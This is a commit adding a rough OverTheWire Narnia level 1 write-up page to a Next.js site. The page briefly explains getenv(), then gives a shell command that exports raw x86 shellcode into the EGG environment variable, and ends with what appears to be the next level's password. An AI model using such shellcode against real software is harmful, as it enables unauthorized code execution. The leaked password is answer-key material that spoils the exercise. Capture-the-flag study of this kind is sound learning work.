

Before and after one commit to ryannath/over-the-wire, a Next.js app: page /narnia/narnia1 in a window 1280 px wide. Before the commit this address had no page. Shown: the top 532 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
Added rough narnia entries

```diff
--- /dev/null
+++ b/pages/narnia/narnia1.tsx
@@ -0,0 +1,17 @@
+import CodeBlock from "../../components/elements/CodeBlock/CodeBlock"
+
+const narnia1 = () => {
+  return (
+    <div>
+      The getenv() function searches the environment list to find the
+       environment variable name, and returns a pointer to the
+       corresponding value string.
+       will execute otherwise, need to change ENV EGG
+       <CodeBlock language="shell">
+        export EGG=`python -c &apos;print(&quot;\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80&quot;)&apos;`
+       </CodeBlock>
+       nairiepecu
+    </div>
+  )
+}
+export default narnia1
```
Also changed, not shown: pages/narnia/narnia0.tsx (added, +12 -0 lines).
